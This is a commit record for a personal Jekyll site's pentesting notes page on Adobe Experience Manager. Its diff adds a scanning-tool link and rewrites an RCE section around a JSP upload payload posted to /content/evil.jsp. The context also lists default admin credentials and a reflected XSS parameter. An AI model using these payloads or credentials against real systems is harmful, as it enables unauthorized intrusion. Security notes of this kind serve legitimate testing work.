

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/Services.md, in a window 1280 px wide and 1400 px high, scrolled down 5705 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7040 px from its top, so only the background shows below that.

Commit message:
Update Services.md

````diff
--- a/markdown/Services.md
+++ b/markdown/Services.md
@@ -252,6 +252,7 @@
 **Automated Tooling**
 - [AEM hacker](github.com/0ang3el/aem-hacker) can enumerate much of this and automatically report back
   - Based on these slides: [https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps](https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps)
+- [AEM Scan](github.com/Raz0r/aemscan/tree/master/aemscan) will find and display as many interesting paths as possible (more than AEM hacker in my experience)
 
 **High Value Endpoints**
 - Anonymous POST servlet at `/.json` or `/.1.json` allows planting new JCR nodes
@@ -269,13 +270,15 @@
 - Default creds of `admin:admin`, `author:author`, or `replication:replication`
 - Reflected XSS via `?debug=layout`
 
-Basic RCE:
+Basic RCE upload via POST to `/content/evil.jsp`:
 
 ```
 :contentType=text/plain
 jcr:data=<% out.println("pwned"); %>
 :operation=import
 ```
+
+Admin RCE script available here: [https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh](https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh), which uploads a malicious app
 
 ## Miscellaneous
 - Many of the below have plenty of CVEs, just look em up
````
